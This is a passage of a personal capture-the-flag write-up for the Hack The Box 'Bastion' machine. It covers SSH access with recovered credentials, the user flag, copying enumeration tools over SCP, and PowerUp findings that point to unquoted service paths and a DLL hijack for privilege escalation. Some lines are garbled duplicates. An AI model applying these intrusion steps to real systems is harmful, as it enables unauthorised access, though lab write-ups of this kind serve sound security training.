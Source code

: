 ```
bastion\l4mpje 
```
- Success, although I was getting SSH error `bad key types` and `bad configuration options`. The solution was to comment out of `/etc/ssh/ssh_config` the following line:
```
# Include /etc/ssh/ssh_config.d/*.conf
```
- Once, done. SSH with the creds gave us a user shell
```
┌──(root㉿kali)-[~/Downloads]
└─# ssh 'L4mpje'@10.10.10.134
L4mpje@10.10.10.134's password: 

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

l4mpje@BASTION C:\Users\L4mpje>whoami
bastion\l4mpje
```

- User flag - `l4mpje`
```
l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt                     
6c3d56614e31bc8a2be0e58c9657716e 
```
# PrivEsc
[[Privilege Escalation]], [[🦊TCM Security/PrivEsc_Windows/1_Initial_Enumeration]]
- escalate to root
- Let's transfer tools to check for vulnerabilities 
	- #windows-exploit-suggester  using #SCP 
```
┌──(root㉿kali)-[~/Downloads]
└─# scp windows-exploit-suggester.py L4mpje@10.10.10.134:wes.py  
L4mpje@10.10.10.134's password: 
windows-exploit-suggester.py               100%   68KB 145.3KB/s   00:00 
```
- python does not appear to be installed
- Also, transfer #winPEAS and #PowerUp using #SCP 

- Identified many vulnerabilities, first that stood out was an Unquoted Autorun #UnquotedServicePaths #Autoruns 
	- File: `C:\Program Files\VMware\VMware Tools\vmtoolsd.exe` -n vmusr (Unquoted and Space detected)  oted and Space detected)
	- Also File: `C:\Program Files\Internet Explorer\iexplore.exe` %1 (Unquoted and Space detected) - `C:\`     Space detected) - `C:\`
	- And other unquoted service paths...
	- We can try to transfer a payload in this path to be called upon service restart/logon
- Also, identified #StartUp attack paths
- With `PowerUp.ps1` the only PrivEsc attack path identified is a #DLLHijacking attack
```
ModifiablePath    : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps
IdentityReference : BASTION\L4mpje
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'  
```
